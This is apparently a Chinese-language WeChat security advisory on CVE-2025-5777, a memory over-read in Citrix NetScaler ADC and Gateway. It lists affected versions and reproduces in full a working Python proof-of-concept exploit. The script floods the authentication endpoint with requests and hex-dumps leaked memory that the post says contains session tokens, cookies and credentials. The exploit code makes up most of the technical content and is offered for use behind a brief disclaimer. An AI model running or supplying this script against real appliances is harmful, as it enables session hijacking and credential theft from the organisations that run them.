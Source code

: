 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247486079&idx=1&sn=79828c12688c4daf8723f32f2877dc05

#  CVE-2025-5777｜Citrix NetScaler ADC和NetScaler Gateway内存泄漏漏洞（POC）  
alicy  信安百科   2025-07-13 12:02  
  
**0x00 前言**  
  
  
NetScaler ADC和NetScaler Gateway（以前称为Citrix ADC和Citrix Gateway）都是美国思杰（Citrix）公司的产品。  
  
  
Citrix Gateway是一套安全的远程接入解决方案，可提供应用级和数据级管控功能，以实现用户从任何地点远程访问应用和数据；Citrix ADC是一个全面的应用程序交付和负载均衡解决方案，用于实现应用程序安全性、整体可见性和可用性。  
  
  
  
**0x01 漏洞描述**  
  
  
未经授权的攻击者可通过发送精心构造的网络请求，针对 Citrix NetScaler ADC 及 Citrix NetScaler Gateway 产品中存在的内存越界读取漏洞（CVE-2025-5777）发起攻击。  
  
  
利用此漏洞，能够非法读取设备内存中的敏感数据，其中包括用户会话令牌、Cookie 信息及各类认证凭据等关键信息，对系统安全与用户数据隐私构成严重威胁。  
  
  
  
**0x02 CVE编号**  
  
****  
CVE-2025-5777  
  
  
  
**0x03 影响版本**  
  

```
NetScaler ADC 14.1 < 14.1-43.56
NetScaler Gateway 14.1 < 14.1-43.56
NetScaler ADC < 13.1-58.32
NetScaler Gateway 13.1 < 13.1-58.32
NetScaler ADC 13.1-FIPS < 13.1-37.235-FIPS
NetScaler ADC 13.1-FIPS < 13.1-37.235-NDcPP
NDcPP < 13.1-37.235-FIPS
NDcPP < 13.1-37.235-NDcPP
NetScaler ADC 12.1-FIPS < 12.1-55.328-FIPS
NetScaler ADC 和 NetScaler Gateway 版本 12.1 和 13.0 已进入生命周期结束（EOL），并且存在漏洞，此外，所有使用 NetScaler 实例的 Secure Private Access 部署均受此漏洞影响。
```

  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
https://github.com/win3zz/CVE-2025-5777  
  

```
#!/usr/bin/env python3


&#34;&#34;&#34;
Title: Citrix NetScaler Memory Leak Exploit
CVE: CVE-2025-5777
Script Tested on: Ubuntu 20.04.6 LTS with Python 3.8.10


&#34;&#34;&#34;


import sys
import asyncio
import aiohttp
import signal
import argparse
import re
from colorama import init, Fore, Style


# Init colorama
init(autoreset=True)


# Global flags
stop_flag = False
verbose = False
proxy = None
threads = 10
leak_detected_once = False
initial_check_done = False


def signal_handler(sig, frame):
    global stop_flag
    stop_flag = True
    print(f&#34;\n{Fore.YELLOW}[+] Stopping gracefully...&#34;)


def hex_dump(data):
    for i in range(0, len(data), 16):
        chunk = data[i:i+16]
        hex_bytes = ' '.join(f'{b:02x}' for b in chunk)
        ascii_str = ''.join((chr(b) if 32 <= b <= 126 else '.') for b in chunk)
        print(f'{i:08x}: {hex_bytes:<48} {ascii_str}')


def extract_initial_value(content_bytes):
    global leak_detected_once
    try:
        content_str = content_bytes.decode(&#34;utf-8&#34;, errors=&#34;replace&#34;)
        match = re.search(r&#34;<InitialValue>(.*?)</InitialValue>&#34;, content_str, re.DOTALL)
        if match and match.group(1).strip():
            leak_detected_once = True
            print(f&#34;{Fore.GREEN}\n[+] Found InitialValue:&#34;)
            val = match.group(1)
            hex_dump(val.encode(&#34;utf-8&#34;, errors=&#34;replace&#34;))
        elif verbose:
            print(f&#34;{Fore.YELLOW}[DEBUG] No <InitialValue> tag with value found.&#34;)
    except Exception as e:
        print(f&#34;{Fore.RED}[!] Regex parsing error: {e}&#34;)


async def fetch(session, url):
    full_url = f&#34;{url}/p/u/doAuthentication.do&#34;
    try:
        async with session.post(full_url, data=&#34;login&#34;, proxy=proxy, ssl=False) as response:
            if verbose:
                print(f&#34;{Fore.CYAN}[DEBUG] POST to {full_url} -> Status: {response.status}&#34;)
            if response.status == 200:
                content = await response.read()
                if verbose:
                    print(f&#34;{Fore.CYAN}[DEBUG] Response body (first 200 bytes): {content[:200]!r}&#34;)
                extract_initial_value(content)
            else:
                if verbose:
                    print(f&#34;{Fore.RED}[DEBUG] Non-200 status code received: {response.status}&#34;)
    except aiohttp.ClientConnectorError as e:
        print(f&#34;{Fore.RED}[!] Connection Error: {e}&#34;)
    except Exception as e:
        print(f&#34;{Fore.RED}[!] Unexpected Error: {e}&#34;)


async def main(url):
    global stop_flag, leak_detected_once, initial_check_done
    connector = aiohttp.TCPConnector(limit=threads)
    timeout = aiohttp.ClientTimeout(total=15)


    async with aiohttp.ClientSession(connector=connector, timeout=timeout) as session:
        while not stop_flag:
            tasks = [fetch(session, url) for _ in range(threads)]
            await asyncio.gather(*tasks)


            if not initial_check_done:
                initial_check_done = True
                if not leak_detected_once:
                    print(f&#34;{Fore.YELLOW}[+] No leak detected in initial round. Target likely not vulnerable.&#34;)
                    stop_flag = True
                    break
                else:
                    print(f&#34;{Fore.GREEN}[+] Leak detected! Continuing to extract...&#34;)


            await asyncio.sleep(1)


if __name__ == &#34;__main__&#34;:
    parser = argparse.ArgumentParser(description=&#34;CVE-2025-5777 Citrix NetScaler Memory Leak PoC (Educational Only)&#34;)
    parser.add_argument(&#34;url&#34;, help=&#34;Base URL (e.g., http://target.com)&#34;)
    parser.add_argument(&#34;-v&#34;, &#34;--verbose&#34;, action=&#34;store_true&#34;, help=&#34;Enable debug output&#34;)
    parser.add_argument(&#34;-p&#34;, &#34;--proxy&#34;, help=&#34;HTTP proxy URL (e.g., http://127.0.0.1:8080)&#34;)
    parser.add_argument(&#34;-t&#34;, &#34;--threads&#34;, type=int, default=10, help=&#34;Number of concurrent threads (default: 10)&#34;)
    args = parser.parse_args()


    verbose = args.verbose
    proxy = args.proxy
    threads = args.threads


    signal.signal(signal.SIGINT, signal_handler)


    try:
        asyncio.run(main(args.url.rstrip(&#34;/&#34;)))
    except KeyboardInterrupt:
        print(f&#34;\n{Fore.YELLOW}[+] Interrupted by user.&#34;)
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urBcuan8AGZnEouauEBWhtohLbTKG5jibBibDWbMutviajCUEkHMFQ3yycxYhaWnW0WR4ltzanE2A7hQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 参考链接**  
  
  
https://support.citrix.com/support-home/kbsearch/article?articleNumber=CTX693420  
  
  
https://www.theregister.com/2025/07/07/citrixbleed_2_exploits/  
  
  
https://nvd.nist.gov/vuln/detail/CVE-2025-5777  
  
  
  
  
推荐阅读：  
  
  
[CVE-2023-4966｜Citrix NetScaler ADC & Gateway信息泄露漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247484652&idx=1&sn=ae73147af98f1906138f12a66e75c088&scene=21#wechat_redirect)  
  
  
  
[CVE-2025-6218｜WinRAR目录遍历远程代码执行漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247486063&idx=2&sn=a3d57d6619d987a8d64a725f1bc82373&scene=21#wechat_redirect)  
  
  
  
[CVE-2025-32756｜Fortinet多款产品存在远程代码执行漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485986&idx=2&sn=7a87bb2da8ae173794e4a4250b47452a&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
